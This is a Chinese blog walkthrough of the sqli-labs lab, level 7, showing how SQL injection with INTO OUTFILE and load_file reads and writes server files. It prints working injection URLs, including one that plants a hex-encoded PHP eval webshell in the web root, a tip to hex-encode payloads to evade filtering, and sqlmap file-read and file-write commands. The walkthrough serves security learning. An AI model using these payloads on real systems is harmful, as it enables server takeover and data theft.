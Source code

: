 ```yaml
---
 title: Sqlilabs通关笔记(7)读写注入
 date: 2020-01-04 09:34:26
 tags: SQL注入
 categories:
---
```



## 第七关 基于文件写入注入
![2020-1-4-13-30-18-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-30-18-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)

### 存在注入点判断
1. 任意输入单引号，会显示报错
2. 正常运行提示 Use outfile...... 所以理解为写入mm文件执行
3. 通过尝试发现闭合'))，通过查看源代码，再次确定闭合成功

    ```
        $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font color= "#FFFF00">';	
        echo 'You are in.... Use outfile......';
        echo "<br>";
        echo "</font>";
        }
        else 
        {
        echo '<font color= "#FFFF00">';
        echo 'You have an error in your SQL syntax';
        //print_r(mysql_error());
        echo "</font>";  
        }
    }
        else { echo "Please input the ID as parameter with numeric value";}

    ```
<!--more-->
### 写入文件配置（使用条件）

**secure-file-priv**
    - 如果文件导入不成功,确认Mysql配置文件my.ini下存在secure-file-priv
    - secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的

* secure_file_priv的值为null ，表示限制mysqld不允许导入|导出
* secure_file_priv的值为/tmp/ ，表示限制mysqld的导入|导出只能发生在/tmp/目录下
* secure_file_priv的值没有具体值时，表示不对mysqld的导入|导出做限制

mysql使用以下命令查看是否打开文件写入开关
> show global variables like '%secure%'

![2020-1-4-13-44-44-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-44-44-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)

修改my.ini添加secure-file-priv参数,没有填具体值表示不做限制(这样做其实很危险)
![2020-1-4-13-47-35-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-47-35-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)

重启mysql即可

### 写入敏感文件

写入一句话木马
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=-1')) union select 1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\mm2.php"--+

写入phpinfo
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1')) 1,0x3c3f70687020706870696e666f28293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\pp2.php--+

**写入需要注意的**
* 写入的内容需要用hex转码，以防拦截
* 写入的前提需要知道物理文件路径
* 写入的前提是有权限写入，或者有配置写入的权限

**可以在文件目录查看发现文件写入成功**

![2020-1-4-13-33-20-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-33-20-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)

**同时网页可以直接访问该文件并执行**

![2020-1-4-13-34-17-Sqlilabs通关笔记(7)读写注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-13-34-17-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(7)%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5)


### 读取敏感文件
- **前提要有页面输出哦！**
> http://127.0.0.1/sqlilabs2/Less-3/index.php?id=-1') union select 1,load_file('e:\\mm.php'),3--+



### SQLMQP 读写文件

**文件读取**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-1/index.php?id=1" --file-read "E:\\mm.php"

**文件写入**
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --file-write "/home/bb/1.txt" --file-dest "E:\\sql2.php" --batch